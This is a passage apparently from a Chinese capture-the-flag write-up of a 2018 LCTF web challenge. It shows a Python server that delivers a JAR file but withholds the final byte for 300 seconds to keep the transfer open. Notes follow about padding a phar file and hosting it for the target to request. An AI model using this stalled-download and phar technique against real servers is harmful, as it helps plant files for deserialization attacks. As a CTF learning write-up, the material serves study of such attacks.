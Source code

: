 ```python
                jf = open(jar_file, 'rb')
                contents = jf.read()
                headers = ('''HTTP/1.0 200 OK\r\n'''
                '''Content-Type: application/java-archive\r\n\r\n''')
                self.request.sendall(headers.encode('ascii'))
                self.request.sendall(contents[:-1])
                time.sleep(300)
                print(30)
                self.request.sendall(contents[-1:])

            except Exception as e:
                print ("get error at:"+str(e))


if __name__ == '__main__':

    jarserver = socketserver.TCPServer((listen_host,listen_port), JarRequestHandler) 
    print ('waiting for connection...') 
    server_thread = threading.Thread(target=jarserver.serve_forever) 
    server_thread.daemon = True 
    server_thread.start() 
    server_thread.join()
```

需要在phar文件末尾添加一些额外字符

![](2018-lctf-web-学习篇\11.png)

然后放在服务器中进行请求
